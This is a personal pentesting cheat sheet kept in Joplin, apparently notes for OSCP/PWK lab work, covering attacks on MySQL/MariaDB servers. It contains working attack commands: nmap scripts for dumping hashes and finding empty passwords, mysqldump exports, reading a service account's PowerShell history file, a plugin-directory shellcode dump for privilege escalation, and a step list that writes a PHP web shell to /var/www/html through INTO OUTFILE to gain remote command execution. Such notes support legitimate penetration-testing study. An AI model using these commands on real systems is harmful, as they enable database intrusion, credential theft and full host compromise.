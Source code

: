 MySQL/3306

https://book.hacktricks.xyz/pentesting/pentesting-mysql

Enumerate

> `nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>`

Export dump

> ```
> mysqldump -h 127.0.0.1 -P 3306 -u root -p password --add-locks -q dbname > dbname.sql
> ```

Export the complete DB table structure

> mysqldump -h 127.0.0.1 -P 3306 -u root -p password --add-locks -q -d dbname > dbname.sql

To connect to the DB, use mysql and state the options

> mysql --user=*user_name* --password *db_name*

You can run mysql binary with a script as well, and get the output

> mysql *db_name* < *script.sql* \> *output.tab*

[MySQL SQL Injection Cheat Sheet | pentestmonkey](https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)

<ins>Privilege Escalation</ins>

<ins>![a832cc9cda797039feb212172cedcb1c.png](:/2829866aa37b4039b67c547b572a86ab)</ins>

> type C:\\Users\\sql\_svc\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost\_history.txt

# Getting Privilege Esclation (PWK Exercise)

For MariaDB (Exploit) inside PWK page 792

![2e304270b158e8c7d63c6754baa9560a.png](:/dba13e4f022d42a4b6e68b9fa9addd6b)

> select @@plugin_dir;
> 
> select binary 0xshellcode into dumpfile @@plugin_dir;

There are exercises done in the PWK Lab. Refer to the Spreadsheet

# Enumerate MySQL

mysql -u root -D &lt;database&gt; -p

show databases;

use &lt;db&gt;;

show tables;

select * from &lt;db&gt;.&lt;table&gt;

describe &lt;table&gt;

# Get Reverse Shell

Here are the steps

1.  Access remote database with admin credentials
    - mysql -u admin -p -h 192.168.100.1
        
2.  Create new table in main database
    - CREATE TABLE compromise;
3.  Inject PHP code to gain command execution
4.  Drop table contents onto a file the user can access
    - select '&lt;?php $cmd=$_GET\["cmd"\];system($cmd);?&gt;' INTO OUTFILE '/var/www/html/shell.php';
        
5.  Execute and obtain RCE on the host

id: a4c2bf1835c6401fb1e876c2e746299e
parent_id: 17338627f6dc4ef4856d44508b33e0b1
created_time: 2022-01-14T07:45:01.462Z
updated_time: 2022-07-21T05:08:14.740Z
is_conflict: 0
latitude: 1.36730000
longitude: 103.80140000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-14T07:45:01.462Z
user_updated_time: 2022-07-21T05:08:14.740Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1